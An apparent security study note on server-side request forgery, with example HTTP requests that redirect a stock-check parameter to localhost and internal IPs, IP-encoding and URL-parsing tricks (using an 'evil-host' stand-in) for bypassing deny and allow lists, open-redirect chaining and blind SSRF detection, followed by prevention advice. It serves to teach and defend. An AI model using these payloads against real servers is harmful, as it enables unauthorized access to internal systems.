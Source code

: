 # Server-side request forgery (SSRF) :fountain_pen:

Cause a server to make requests to an unintented location.  This can be an internal or external server and can result in:

- information leakage;
- account compromise; or
- an attack that appears to come from the compromised server.

SSRF attacks rely on exploiting trust, generally between an app and backend systems.

## Common attacks

### SSRF against self

Attacker causes the server to request itself via `localhost` or `127.0.0.1`.  This may bypass access controls since the request is coming from the server.

```http
# Request for product stock
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1

# Change to request for the `/admin` page via localhost
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
```

This works for various reasons:

- Access controls are not part of the API that is handling requests from the server itself.
- Admin interface may be on a different port that is not accessbile to the internet, but is available on localhost.

#### SSRF attacks against other systems

Attacks where the server makes a request against other backend systems that are part of the application's private network.  This can be effective since these backend systems will have a weaker security posture as they are thought to be secure because of the network topology.

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.0.68/admin
```

### Circumvent SSRF protection

#### Deny-list input filters

If an application does not allow strings like `localhost` or `127.0.0.1` to be processed, use alternate representations:

1. `2130706433`, `017700000001`, or `127.1`.
1. Register a domain that resolves to `127.0.0.1`.
1. Use URL encoding or case variation to bypass string matching.

#### Allow-list input filters

If an application only allows requests to safelisted domains, they can sometimes be bypassed based on how URLs are parsed:

```sh
https://evil-host.com#good-host.com # URL fragment
https://good-host.com.evil-host.com # Subdomain parsing
https://good-host.com@evil-host.com # Userinfo parsing

```

The above can be combined with URL encoding to help bypass filters.

#### Bypass via open redirects

If application contains an open redirect vulnerability, you can use it to bypass allow list filters:

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=https://feedingfromthegardenuntilhistickerisjammed.com/product?id=42&path=http://192.168.0.68/admin
```

### Blind SSRF

When an attack succeeds and sends a request to a backend server, but does not send a response back to the attacker.

Detect using an out-of-band technique (OAST) where you send a request a server you control and monitoring for the SSRF request.

:bulb: It is common when testing for SSRF vulnerabilities to use a DNS lookup as the out-of-band technique.  This is because DNS lookups are usually permitted from most networks.  You can then check if only the DNS lookup succeeds and there is no subsequent HTTP request.  This indicates there is network filtering blocking your SSRF attack.

To exploit blind SSRF vulnerabilities:

- Send requests to the internal IP address space with known vulnerability payloads.  You may get lucky and stumble upon an unpatched vulnerability.  
- It is also possible to have the HTTP request from an SSRF vulnerability return a malicious response in an attempt to gain control over the system.

## Prevent

- Deny all outbound requests by default and safelist only what is required.
- Safelist DNS lookups from your network to prevent OAST.
- Safelist incoming requests to ensure they are to legitimate source.  As much as possible, use constants for the IP or URL so that it cannot be altered by an attacker. 

## Tools

- [Burp Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder/using)
- [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater/using)

## References

- https://portswigger.net/web-security/ssrf
- https://portswigger.net/web-security/ssrf/blind
